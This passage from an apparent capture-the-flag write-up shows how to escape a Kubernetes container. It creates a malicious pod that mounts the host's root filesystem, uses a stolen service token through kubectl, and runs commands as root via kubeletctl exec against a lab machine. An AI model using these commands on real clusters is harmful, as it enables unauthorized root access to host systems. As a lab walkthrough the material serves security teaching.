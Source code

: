 The `name` is arbitrary. The `namespace` is the one I’ve been working out of, `default`. I’ll use the image that already exists here, `nginx:1.14.2`. The rest is just setting up the `volumes` / `volumeMounts`. The `volumeMount` says that I’m going to mount a `volume` named `hostfs` into the container at the mount point `/mnt`. Then that volume is defined as `/` on the host file system.

#### Execute Pod

`kubectl apply` is used to start the pod:

```

oxdf@hacky$ kubectl apply -f evil-pod.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
pod/0xdf-pod created

oxdf@hacky$ kubectl get pod --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
NAME       READY   STATUS    RESTARTS   AGE
0xdf-pod   1/1     Running   0          13s
nginx      1/1     Running   0          15h

```

It is visible from the Kubelet as well:

```

oxdf@hacky$ kubeletctl pods -s 10.10.11.133
┌────────────────────────────────────────────────────────────────────────────────┐
│                                Pods from Kubelet                               │
├───┬────────────────────────────────────┬─────────────┬─────────────────────────┤
│   │ POD                                │ NAMESPACE   │ CONTAINERS              │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 1 │ storage-provisioner                │ kube-system │ storage-provisioner     │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 2 │ coredns-78fcd69978-7dhjv           │ kube-system │ coredns                 │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 3 │ nginx                              │ default     │ nginx                   │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 4 │ 0xdf-pod                           │ default     │ 0xdf-pod                │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
...[snip]...

```

#### Execute In Pod

Execution via Kubelet works just like it did in the original nginx container:

```

oxdf@hacky$ kubeletctl exec "id" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
uid=0(root) gid=0(root) groups=0(root)

```
